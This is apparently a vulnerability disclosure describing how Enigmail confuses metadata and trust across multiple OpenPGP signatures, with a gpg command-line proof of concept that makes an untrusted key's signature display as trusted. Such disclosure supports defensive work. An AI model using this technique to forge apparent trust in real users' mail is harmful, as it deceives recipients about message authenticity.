 Some status flags understood by Enigmail have a "trapdoor" effect in
the sense that they can only trigger setting a flag which is not
deleted afterwards. In the case of error flags that is often useful
and the safe default, but for `TRUST_FULLY` and `TRUST_ULTIMATE` this
behaviour is actually dangerous.

We found two flaws in the way Enigmail handles status messages for
multiple signatures:

* If the status of the *last* signature is `GOODSIG`, `EXPKEYSIG` or
  `REVKEYSIG`, Enigmail will overwrite the signature details
  (fingerprint, creation time, algorithm identifiers) with the
  information from the *first* `VALIDSIG`, confusing the metadata of
  two signatures. For example, this allows us to change the state of a
  signature to good, expired or revoked, by adding a second signature
  with an appropriate state. Enigmail will display the details of the
  first signature, but the state of the second.
* If any of the (multiple) signatures is `TRUST_FULLY` or
  `TRUST_ULTIMATE`, and the *last* signature is good (can be expired or
  revoked), then Enigmail will display the information from the *first*
  `VALIDSIG` as trusted.

Put together, the attacker can trick Enigmail into assigning the trust
value of one signature to the details of another signature.

### Proof of concept

Simply generate two keys, and sign a message with both. Import the
public keys into a new keyring, and set full trust for one of
them. Sign a message first with the untrusted key, and second with the
trusted key. Enigmail will display the signature from the untrusted
key as trusted.

```
$ mkdir /tmp/trustconfusion
$ gpg --homedir /tmp/trustconfusion --quick-gen-key "Dubious Key <dubious@example.com>"
$ gpg --homedir /tmp/trustconfusion --quick-gen-key "Trusted Key <trusted@example.com>"
$ gpg --homedir /tmp/trustconfusion/ --export Trusted Dubious | gpg --import
$ gpg --edit-key Trusted
> lsign
> save
$ echo 'Do you remember me?' | gpg --homedir /tmp/trustconfusion --armor --sign -u Dubious -u Trusted | gpg --status-fd 2
...
[GNUPG:] GOODSIG 848346A87AEDB69D Dubious Key <dubious@example.com>
[GNUPG:] VALIDSIG 3A6744E8E65F3CAF3E0FB88A848346A87AEDB69D 2018-06-07 1528401495 0 4 0 1 8 00 3A6744E8E65F3CAF3E0FB88A848346A87AEDB69D
[GNUPG:] TRUST_UNDEFINED 0 classic
...
[GNUPG:] GOODSIG 645130A3A9C92809 Trusted Key <trusted@example.com>
[GNUPG:] VALIDSIG 05B34301E7FEB1328344789E645130A3A9C92809 2018-06-07 1528401495 0 4 0 1 8 00 05B34301E7FEB1328344789E645130A3A9C92809
[GNUPG:] TRUST_FULLY 0 classic
...
```
